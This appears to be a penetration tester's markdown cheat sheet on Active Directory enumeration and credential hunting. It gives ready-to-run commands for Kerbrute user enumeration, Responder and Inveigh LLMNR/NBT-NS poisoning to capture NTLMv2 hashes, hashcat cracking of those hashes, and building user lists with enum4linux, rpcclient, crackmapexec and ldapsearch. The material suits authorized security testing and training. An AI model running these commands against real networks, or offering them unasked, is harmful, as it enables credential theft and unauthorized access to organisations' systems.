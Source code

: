 # Active Directory - Enumeration

## Credential Hunting

Finding something from nothing

* [Kerbrute](https://github.com/ropnop/kerbrute.git)
  ```bash
  kerbrute userenum -d 'domain' --dc 0.0.0.0 <wordlist> -o <outfile>
  ```
* Responder
  ```bash
  # Default Settings
  sudo responder -I <iface>
  
  # Provides NTLMv2 Hashes. Cannot be used for PTH and must be cracked
  hashcat -a 0 -m 5600 <hashfile> <wordlist>
  ```
* [Inveigh](https://github.com/Kevin-Robertson/Inveigh) - No longer Updated
  ```ps1
  Import-Module .\Inveigh.ps1
  
  #LLMNR/NBT-NS Poisoning
  Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
  ```
* [InveighZero](https://github.com/Kevin-Robertson/Inveigh) - C# Version, Currently Updated
  ```ps1
  # Default Run
  .\Inveigh.exe

  # Press [esc] to enter the console
  Get NTLMV@UNIQUE # View Hashes
  Get NTLMV2USERNAMES # View Usernames
  ```

Making a list, checking it twice

* enum4linux
  ```bash
  enum4linux -U <IP> | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
  ```
* rpcclient
  ```bash
  # Will require manually fixing the list
  rpcclient -U "" -N <IP>
  enumdomusers
  ```
* crackmapexec
  ```bash
  # Will require manually fixing the list
  crackmapexec smb <IP> --users
  ```
* ldapsearch
  ```bash
  ldapsearch -h <IP> -x -b "DC=test,DC=local" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
  ```
* crackmapexe w/ Credentials
  ```bash
  sudo crackmapexec smb <IP> -u <username> -p <password> --users
  ```
